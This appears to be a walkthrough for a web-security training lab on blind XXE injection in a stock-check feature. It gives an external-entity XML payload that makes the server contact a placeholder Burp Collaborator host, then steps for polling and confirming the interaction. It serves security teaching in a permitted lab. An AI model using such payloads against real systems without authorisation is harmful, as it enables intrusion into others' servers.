







# Lab: Blind XXE with out-of-band interaction

The stock-check feature parses XML but does not display the resolved value. The objective is to confirm blind XXE by making the parser issue a DNS lookup and HTTP request to Burp Collaborator.

!!! note "Use the lab's permitted OAST service"
    The Academy firewall blocks arbitrary external systems. Use the default public Burp Collaborator server supplied by the lab environment.

## 1. Capture the request

Open a product, trigger **Check stock**, and send the XML request to Repeater.





## 2. Generate a Collaborator payload

In Burp, open the Collaborator client and copy a unique public payload. Use that value in the external entity:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "http://COLLABORATOR-SUBDOMAIN/">
]>
<stockCheck>
    <productId>&xxe;</productId>
    <storeId>1</storeId>
</stockCheck>
```



## 3. Send and poll

Send the modified request once, then poll the Collaborator client. No useful file content needs to appear in the application response.





## 4. Confirm the interaction

A DNS lookup or HTTP request containing the unique Collaborator token confirms that the server resolved the external entity. The interaction is the evidence of XXE.





## Troubleshooting

- Generate a fresh Collaborator domain and ensure it is copied exactly.
- Keep the entity reference in a field the parser processes.
- Check that the request remains valid XML after editing.
- Poll after sending; the interaction may arrive asynchronously.
- If only DNS is visible, the server may be unable to complete the HTTP request.
